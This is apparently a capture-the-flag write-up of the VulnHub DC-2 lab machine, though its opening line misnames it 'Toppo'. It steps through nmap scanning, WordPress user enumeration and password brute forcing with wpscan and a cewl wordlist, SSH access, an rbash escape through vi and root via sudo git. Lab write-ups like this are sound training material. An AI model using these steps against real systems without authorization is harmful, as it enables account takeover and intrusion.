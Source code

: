<h1>DC: 2</h1>

Today, we'll be looking at the Toppo machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/dc-2,311/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.104
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-28 06:57 EET
Nmap scan report for 192.168.56.104
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
MAC Address: 08:00:27:09:87:0A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.17 ms 192.168.56.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.69 seconds
```
The machine is running http and ssh on port **7744**.

Let's add **dc-2** to the hosts file.

```echo "192.168.56.104 dc-2" >> /etc/hosts```

Now, let's browse the machine on port 80.

We can see that it's running wordpress.

![](pics/pic1.png)

Let's run wpscan to enumerate the machine.

```wpscan --url http://dc-2 -e```

We found three users.

![](pics/pic2.png)

Exploring the wordpress site, we can see the first flag.

![](pics/pic3.png)

It's giving us a hint to use cewl, which is a tool for generating wordlists based on a given url.

```cewl http://dc-2 > wordlist.txt```

Now, we can use this wordlist to bruteforce the wordpress login.

I put the three users we found earlier in a file **users.txt**.

Now, let's run wpscan.

```wpscan --url http://dc-2 -U users.txt -P wordlist.txt```

We found the passwords for two users.

![](pics/pic5.png)

I logged into wordpress and I found the second flag but didn't find anything else useful.

![](pics/pic12.png)

So, I tried the these credentials with ssh.

We got in!

![](pics/pic6.png)

Looks like we are in a restriced shell: **rbash**.

![](pics/pic7.png)

We can use the command ``compgen -c`` to view available commands.

Great! we can run **vi**.

![](pics/pic8.png)

You can read this great [article](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/) about escaping rbash.

![](pics/pic9.png)

Running that, we got a bash shell.

![](pics/pic10.png)

We also need to change our PATH to be able to use commands.

```export PATH=/bin:/usr/bin:$PATH```

Now, let's perform local enumeration and esculate our priviliges.

We found flag3.

![](pics/pic11.png)

That's a hint to switch user to **jerry**.

In the home directory of the user jerry, we find the fourth flag.


![](pics/pic13.png)

There aren't any hints in here.

Let's use ```sudo -l```.

We can run **git** with sudo.

Let's search for it on [gtfobins](https://gtfobins.github.io).

![](pics/pic14.png)

Let's use this command.

We are root!

Now, we can view the final flag.

![](pics/pic15.png)